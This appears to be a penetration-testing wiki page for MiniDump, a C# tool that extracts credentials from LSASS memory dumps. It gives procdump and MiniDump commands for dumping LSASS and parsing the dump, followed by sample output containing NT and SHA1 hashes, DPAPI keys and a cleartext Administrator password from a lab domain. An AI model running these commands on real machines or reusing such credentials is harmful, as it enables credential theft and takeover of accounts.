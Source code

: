 ```yaml
---
title : "Minidump"
# pre : ' '
description : "C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps."
date : 2021-10-22T11:14:39+02:00
# hidden : true
# draft : true
weight : 0
tags : ['Windows', 'LSASS']
---
```


## Minidump

C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps.

Supported Credentials:

- Lsa
- Msv
- Kerberos
- WDigest
- SSP
- TsPkg
- Credman
- Dpapi
- CloudAP

## Installation

{{%resources fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

## Usage

[Sysinternals - procdump]({{< ref "sysinternals" %}})

```plain
PS C:\> .\procdump64.exe (ps lsass).id data -ma
PS C:\> MiniDump.exe lsass.dmp
```

## Examples

```plain
PS C:\Users\johndo\Downloads> .\MiniDump.exe C:\temp\lsass.DMP
Dpapi failed: Object reference not set to an instance of an object.
=====================================================================
[*] LogonId:     0:56684667
[*] LogonType:   CachedInteractive
[*] Session:     1
[*] LogonTime:   2021-10-25 13:46:52
[*] UserName:    Administrator
[*] SID:         S-1-5-21-1182270690-2338034634-174722242-500
[*] LogonDomain: OFFSEC
[*] LogonServer: SRV2016
[*] Msv
    DomainName: OFFSEC
    UserName:   Administrator
    NT:      97f2592347d8fbe42be381726ff9ea83
    Sha1:    d0321e2e4e0712ba7b3f8c1998931312bf6a8b05
    Dpapi:   408853f35eebebe52bffa11b77478cca
[*] Kerberos
    DomainName: OFFSEC.NL
    UserName: Administrator
    Password: Welkom1234
=====================================================================
[*] LogonId:     0:55957391
[*] LogonType:   Interactive
[*] Session:     2
[*] LogonTime:   2021-10-25 13:45:17
[*] UserName:    DWM-2
[*] SID:         S-1-5-90-0-2
[*] LogonDomain: Window Manager
[*] Msv
    DomainName: OFFSEC
    UserName:   WIN10$
    NT:      b5fb60bc5eb9092f9f96b89fcf0fee45
    Sha1:    33bcd239a53d5650bebd83a4963630805ab24465
[*] Kerberos
    DomainName: offsec.nl
    UserName: WIN10$
    Password: 82 b5 45 75 ad 5b 36 d1 3e 3a cf 7b fb ea 0a ca 48 63 92 25 71 53 0b f4 2d f8 80 48 28 7f fc 96 43 5b 30 19 ba 4c 88 be 53 7b 7b 11 a9 d8 c1 23 88 e2 24 01 64 45 31 08 08 af c6 97 bb 88 6e 0f 86 05 dd 43 12 d2 81 f3 ab e1 c3 11 1e cc 42 13 d2 e4 24 fa 2f 8e 6f eb 02 70 2e d4 92 30 42 01 a9 bd f9 cc 34 63 b2 78 41 c2 f4 94 73 8a 24 9c 3d cf 1d cf d5 5a dc 8b 47 0a c6 20 62 f8 8f 70 2c 16 92 ed f6 0a 4e 59 fe d4 7d d2 94 77 11 8a 4c c2 ce 3e 45 d4 53 e4 e7 e5 96 23 99 03 29 5e 2d 85 76 66 59 39 cc 33 1a cc 7a ac e5 c9 36 1d f2 18 0a fe 8b e3 41 ae 4c bd 0c fc 1a 5b a6 1b f2 c8 00 b7 19 5c 28 90 10 4b 32 a5 38 e0 44 1d b2 72 db c9 e5 ad 86 0f 7c 34 d1 82 40 24 83 0f 2f 60 3c 28 78 dc ef 82 03 de 4a 13 33 62 c3 5f
    NT: B5FB60BC5EB9092F9F96B89FCF0FEE45
[...]
```

## URL List

- [Github.com - Minidump](https://github.com/cube0x0/MiniDump)
